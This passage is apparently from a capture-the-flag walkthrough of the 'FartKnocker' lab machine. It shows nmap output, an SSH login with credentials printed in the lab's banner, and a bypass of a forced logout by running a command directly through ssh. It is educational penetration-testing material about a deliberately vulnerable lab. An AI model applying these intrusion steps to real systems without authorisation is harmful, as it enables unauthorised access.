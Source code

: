     Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 6.38 seconds

Well, the ssh port 22 is now open.

## SSH

We try to connect to it:

    :::text
    [maggick@arch FartKnocker]$ ssh 10.0.2.6
    The authenticity of host '10.0.2.6 (10.0.2.6)' can't be established.
    ECDSA key fingerprint is SHA256:uSdkKIWXcJl0j0P5Y+cAzjD9CJOFQ/NxtG8kz8ptzFE.
    Are you sure you want to continue connecting (yes/no)? yes
    Warning: Permanently added '10.0.2.6' (ECDSA) to the list of known hosts.
    ############################################
    # CONGRATS! YOU HAVE OPENED THE SSH SERVER #
    # USERNAME: butthead                       #
    # PASSWORD: nachosrule                     #
    ############################################

The password and username are given by the ssh message, we should use them
directly:


    :::text
    [maggick@arch FartKnocker]$ ssh 10.0.2.6 -lbutthead
    ############################################
    # CONGRATS! YOU HAVE OPENED THE SSH SERVER #
    # USERNAME: butthead                       #
    # PASSWORD: nachosrule                     #
    ############################################
    butthead@10.0.2.6's password:
    Welcome to Ubuntu 14.04.2 LTS (GNU/Linux 3.13.0-46-generic i686)

     * Documentation:  https://help.ubuntu.com/
    Last login: Tue Mar  3 01:02:49 2015 from 192.168.56.102
    You are only logging in for a split second! What do you do!

We got an ssh connection but we are logout immediately.

*I will no more put the CONGRATS message for your own sanity.*

We execute a command directly within the ssh command (a classic ssh feature):

    :::text
    [maggick@arch FartKnocker]$ ssh 10.0.2.6 -lbutthead ls
    nachos
